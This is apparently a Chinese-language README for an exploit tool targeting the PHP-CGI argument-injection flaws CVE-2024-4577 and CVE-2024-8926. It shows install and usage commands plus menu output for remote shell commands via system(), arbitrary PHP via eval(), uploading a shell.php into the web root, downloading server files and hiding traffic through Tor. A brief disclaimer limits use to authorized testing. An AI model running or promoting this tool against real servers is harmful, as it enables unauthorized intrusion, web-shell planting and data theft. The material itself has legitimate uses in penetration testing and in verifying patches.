 # PHP-CGI Injector

🚀 **CVE-2024-4577 & CVE-2024-8926 Exploit Tool**

> 針對 **PHP-CGI 參數注入漏洞** 的自動化測試工具，支持 **CVE-2024-4577** 和 **CVE-2024-8926**，可進行 **命令執行、文件上傳、下載** 等操作。

---

## **📌 介紹**
本工具可用於測試 **PHP-CGI 環境中的參數注入漏洞**，並提供：
- ✅ **超酷的banner動畫**
- ✅ **自動掃描漏洞**
- ✅ **Tor隱藏攻擊流量**
- ✅ **多種攻擊模式**
- ✅ **支持 `system()` 命令執行**
- ✅ **支持 `eval()`任意代碼執行**
- ✅ **支持上傳與下載檔案**
- ✅ **可自動記錄命令執行歷史 (`--log`)**
- ✅ **自動轉換輸出編碼，避免亂碼**

---

## **📜 免責聲明**
**本工具僅限於合法測試與學術用途，請勿用於未經授權的系統！**
> **⚠️ 非法使用將承擔法律責任！**

本工具僅供：
- 🔹 **企業紅隊滲透測試**
- 🔹 **CTF 安全研究**
- 🔹 **個人安全學習**
  
---

## **📥 安裝依賴**
本工具依賴以下 Python 套件，請先安裝：
```bash
pip install -r requirements.txt
```
或者手動安裝：
```bash
pip install requests requests-tor chardet urllib3 rich
```

---

## **🛠️ 使用方法**
### **📌 基本用法**
```bash
python exploit.py -u <目標網站> [--timeout=sec] [--log] [--tor]
```
範例：
```bash
python exploit.py -u http://example.com --timeout=30 --log --tor
```

### **📌 參數選項**
| 參數 | 說明 | 範例 |
|------|------|------|
| `-u` | 指定目標網站 | `-u http://example.com` |
| `--timeout=sec` | 設定請求超時 (`1-120` 秒)，`0` 代表無限等待 | `--timeout=30` |
| `--log` | 啟用 Shell 模式的自動記錄 | `--log` |
| `--tor`  | 使用tor路由 | `--tor` |
---

## **📌 操作模式**
當腳本找到漏洞後，會顯示選單：
```
[+] 找到漏洞入口 : /php-cgi/php-cgi.exe (漏洞: CVE-2024-4577)

[*] 當前目標: http://example.com/ (漏洞: CVE-2024-4577)
模式選擇:
1) Shell模式 (使用system()執行命令)
2) PHP自訂義模式 (使用eval()執行任意代碼)
3) 上傳檔案
4) 下載檔案
5) 切換攻擊目標
6) 離開程式
```

---

## **📌 模式詳解**
### **1️⃣ Shell 模式**
執行 **系統命令**：
```
shell> whoami
```
📂 **儲存輸出**
```
shell> whoami --save
```
```
shell> whoami --save C:\output\whoami.txt
```

---

### **2️⃣ PHP 自訂模式**
執行 **自訂 PHP 代碼**：
```
phpinfo();
EOF
```
📂 **儲存輸出**
```
phpinfo();
EOF --save
```
```
phpinfo();
EOF --save C:\output\info.html
```

---

### **3️⃣ 上傳檔案**
```
本地檔案路徑：C:\test\shell.php
目標完整路徑：
[*] 已自動設定上傳路徑為: C:/xampp/htdocs/shell.php
```
📂 **手動指定路徑**
```
目標完整路徑：C:\xampp\php\shell.php
```

---

### **4️⃣ 下載檔案**
```
遠端檔案路徑：C:\xampp\htdocs\index.php
```
📂 **檔案下載後儲存於 `download/`，若有重複，會自動添加編號**
```
[*] 檔案下載完成，儲存在 download/index.php
```

---

### **5️⃣ 切換攻擊目標**
```
輸入新目標URL: http://newtarget.com
```
🔹 **將重新測試漏洞**

---

### **6️⃣ 離開程式**
```
[*] 程式結束
```
